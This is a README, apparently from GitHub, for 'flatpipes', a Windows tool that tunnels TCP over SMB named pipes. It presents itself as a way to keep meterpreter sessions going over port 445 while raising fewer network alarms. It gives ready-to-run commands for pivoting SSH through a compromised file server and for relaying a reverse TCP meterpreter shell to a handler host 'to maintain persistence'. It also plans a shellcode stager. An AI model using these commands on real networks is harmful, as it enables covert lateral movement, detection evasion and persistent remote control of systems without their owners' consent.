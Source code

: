 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:

#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 10001*

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
> *flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001* 

Finally, netcat on the two hosts on their listeners and chat with yourself.

#### - Bring a remote port here

Let's suppose you have access on the MS Fileserver through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system in the server LAN but we can only connect to MS Fileserver 445 (and eg WMI for command exec)

On the MS Fileserver we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server in the LAN. All IO is through the flatpipes: 
> *flatpipes.exe pserver sclient pipename . 10.0.2.2 22*

On the jumphost we PIPE connect to the MS fileserver 10.0.2.10, and immediately spawn a TCP listener on localhost 22: 
> *flatpipes.exe pclient sserver pipename 10.0.2.10 127.0.0.1 22*

Just ssh on 127.0.0.1 22 and you are through the town portal


#### - Reverse TCP meterpreter through pipes
On the MS Fileserver again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver, same as above, we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
> *flatpipes.exe pserver sserver pipename . 127.0.0.1 54321*

On the jumphost we connect to the MS Fileserver and immediately connect to the handler: 
> *flatpipes.exe pclient sclient pipename 10.0.2.10 IP_OF_METERPRETER_HANDLER 54321*

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.

---

Todo:
* Include a meterpreter bind/reverse stager (exec will C# virtualalloc / createthread)
* "Monkey patch" the above stager to change port on the fly (on hex)
* Exception handling. Asap when pipe auth does not work
* Think any other useful scenarios

---

I hope it will help. It is not very well-written, I welcome comments / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>
